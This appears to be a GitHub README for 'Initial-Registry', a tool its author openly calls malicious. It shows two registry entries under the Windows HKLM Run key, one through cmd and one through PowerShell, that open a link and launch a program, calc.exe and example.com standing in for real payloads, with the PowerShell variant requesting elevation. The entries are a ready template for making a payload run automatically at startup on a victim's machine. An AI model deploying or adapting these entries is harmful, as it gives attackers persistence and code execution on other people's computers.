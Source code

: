 # Initial-Registry
It is a registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell
![1706749031823](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/f5c7acd0-77a2-4410-80c4-4f8c095e7dee)

Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

